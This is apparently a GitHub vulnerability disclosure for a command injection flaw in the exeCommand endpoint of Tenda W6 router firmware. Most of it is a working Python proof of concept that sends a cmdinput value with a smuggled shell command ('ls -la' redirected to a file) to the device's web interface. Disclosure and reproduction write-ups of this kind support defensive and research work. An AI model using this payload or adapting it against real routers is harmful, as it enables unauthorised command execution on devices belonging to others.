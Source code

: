 # Tenda W6 Command Injection Vulnerability

## Device Vulnerability Introduction
Tenda W6 is an enterprise wireless AP router from Tenda Technology (Shenzhen, China).

A command injection vulnerability exists in /goform/exeCommand in Tenda W6 V1.0.0.9(4122) version, which allows attackers to construct cmdinput parameters for arbitrary command execution

Firmware download at: https://www.tenda.com.cn/download/detail-2576.html

## Exploit process

![image-20220707114514300](./pic/image-20220707114514300.png)

![image-20220707114748954](pic/image-20220707114748954.png)

![image-20220707120422585](pic/image-20220707120422585.png)
```python
burp0_url = "http://192.168.5.1/goform/exeCommand"
burp0_headers = {"Host":"192.168.5.1",
"Content-Length":"295",
"Accept":"*/*",
"X-Requested-With":"XMLHttpRequest",
"User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.63 Safari/537.36",
"Content-Type":"application/x-www-form-urlencoded; charset=UTF-8",
"Origin":"http://192.168.5.1",
"Referer":"http://192.168.5.1/main.html",
"Accept-Encoding":"gzip, deflate",
"Accept-Language":"en-US,en;q=0.9",
"Cookie":"user=",
"Connection":"close"}
data1="cmdinput=asd;ls -la . > ./tmp/hack;aa"+'a'*0x0
requests.post(burp0_url,headers=burp0_headers,data=data1, verify=False,timeout=1)
```

[The specific reproduction process is shown in the video](./video/W6命令注入.mp4)


